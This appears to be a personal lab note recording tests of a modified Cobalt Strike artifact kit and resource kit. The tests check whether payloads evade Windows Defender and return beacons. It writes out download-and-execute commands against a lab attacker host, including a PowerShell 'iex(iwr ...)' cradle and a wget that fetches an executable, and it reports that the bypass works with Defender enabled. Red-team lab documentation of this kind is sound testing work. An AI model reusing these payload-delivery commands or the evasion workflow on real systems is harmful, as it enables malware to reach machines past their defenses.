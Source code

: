 ### 1. Making Sure the Original kit Files work

- using script from [[10.5 arsenal-kit-mod.py - WORKING - COMPLETED 12MAY2025]]

first time running the script, checking proper `status` when nothing is ran yet
![[Pasted image 20250512191930.png]]
setup all proper directory files
![[Pasted image 20250512192927.png]]
making sure that the files were properly switched to bypass off
![[Pasted image 20250512193158.png]]
making sure the status properly works
![[Pasted image 20250512193554.png]]
turning on `--av` and making sure it changes
`bypass-pipe.c`
![[Pasted image 20250512193726.png]]
`patch.c`
![[Pasted image 20250512193744.png]]
`compress.ps1`
![[Pasted image 20250512193806.png]]
checking `--status`
![[Pasted image 20250512193848.png]]

### 2. Making Sure the Original kit Files work 
- making sure that they can work if `defender` is not enabled
- making sure they dont work if `defender` is enabled
![[Pasted image 20250512195523.png]]
loaded the new `script`
![[Pasted image 20250512195616.png]]
setup `http` listener
![[Pasted image 20250512195714.png]]
generated `all` payloads in `/home/kali/malware`
![[Pasted image 20250512195753.png]]
setup `scripted wed delivery` to test `resource kit`
![[Pasted image 20250512195851.png]]
hosting file `/home/kali/malware/http_x64.exe` under `/artifactkit` to test the `artifact kit`
![[Pasted image 20250512200038.png]]
payloads to be used for both kits
`wget http://192.168.127.132:80/artifactkit -UseBasicP -OutFile "C:\Users\blaster\Desktop\artkittest.exe"` with defender off
![[Pasted image 20250512200243.png]]
double clicked and able to catch `beacon`
![[Pasted image 20250512200311.png]]
`iex(iwr http://192.168.127.132/resourcekit -useb)`
![[Pasted image 20250512200205.png]]
able to catch beacon with resource kit
![[Pasted image 20250512200224.png]]

### 2. Making Sure the Bypass Files work
clearing `teamserver` data
![[Pasted image 20250512200446.png]]
enabling `av` with `arsenal-kit-mod.py`
![[Pasted image 20250512200559.png]]
restarting `teams server`
![[Pasted image 20250512200636.png]]starting `listeners`
![[Pasted image 20250512200653.png]]generating `new payloads`
![[Pasted image 20250512200718.png]]
started `scripted web delivery` for resource kit
![[Pasted image 20250512200810.png]]
hosting `artifact kit` file with `http_64.exe` file
![[Pasted image 20250512200843.png]]
reverted `guardian` and turned on `defender`
![[Pasted image 20250512200929.png]]
starting with `artifact kit` check
`wget http://192.168.127.132:80/artifactkit -UseBasicP -OutFile "C:\Users\blaster\Desktop\artkittest.exe"` 
- was able to pull over file with `defender`
![[Pasted image 20250512201235.png]]
double clicking to `execute`
![[Pasted image 20250512201255.png]]
now checking `resourcekit` with `iex(iwr http://192.168.127.132/resourcekit -useb)`
- able to execute
![[Pasted image 20250512201348.png]]
caught beacon
![[Pasted image 20250512201408.png]]